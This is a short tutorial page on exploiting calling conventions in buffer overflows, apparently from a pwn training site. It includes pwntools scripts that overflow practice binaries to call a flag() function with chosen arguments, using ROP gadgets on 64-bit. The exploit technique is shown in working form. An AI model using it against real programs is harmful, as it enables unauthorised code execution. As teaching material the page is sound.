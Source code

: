 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

### 

### 32-bit

The program expects the stack to be laid out like this before executing the function:

```text
return pointer    param1    param2    param3
```

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

```text
<flag address>    <ret. pointer>    <param1>    <param2>
```

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the registers.

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

